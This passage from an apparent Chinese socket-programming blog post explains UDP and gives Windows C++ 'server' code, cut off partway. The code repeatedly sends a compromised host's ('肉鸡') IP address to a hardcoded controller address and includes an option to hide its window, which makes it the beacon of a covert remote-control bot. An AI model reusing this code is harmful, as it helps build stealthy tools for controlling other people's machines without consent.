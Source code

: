 UDP链接是面向无连接的，一次服务，不提供差错恢复，不提供数据重传。

`SOCK_DGRAM`协议族，UDP协议。

### 服务端实现

服务端启动后会给指定IP地址的客户端发送服务端的IP地址，以便客户端启动后自动连接到服务端。

![](/images/blog/20160409/3.jpg)

```c++
#include<stdio.h>
// 获取进程列表
#include<windows.h>//windows底层函数
#include<Tlhelp32.h>
// 网络库（Linux头文件不同）
#include<winsock.h>
#pragma comment(lib,"ws2_32.lib")
// 取消窗口显示
//#pragma comment(linker,"/subsystem:windows /entry:mainCRTStartup")

// 全局变量
int sock;
bool going=true;

// 分身活动区域
unsigned long WINAPI function(void* lp)
{
	// 发送肉鸡IP地址
	char hostname[255]="";
	// 获取系统主机名
	gethostname(hostname,sizeof(hostname));
	printf("系统主机名：%s\n",hostname);
	// 在数据链路层，主机名与IP地址对应
	hostent *host=gethostbyname(hostname);
	char* ip=inet_ntoa(*(struct in_addr *)*host->h_addr_list);
	//printf("%s\n",ip);
	// 强制转换网络地址为255.255.255.255类型

	// 定义控制方IP地址
	sockaddr_in ctladdr;
	ctladdr.sin_family=AF_INET;
	ctladdr.sin_port=htons(7676);
	ctladdr.sin_addr.S_un.S_addr=inet_addr("169.254.180.48");
	while(going)
	{
		sendto(sock,ip,strlen(ip),0,(sockaddr*)&ctladdr,sizeof(ctladdr));
		Sleep(5000);
		// 5秒
	}
	return 0;
}

int main(void)
{
```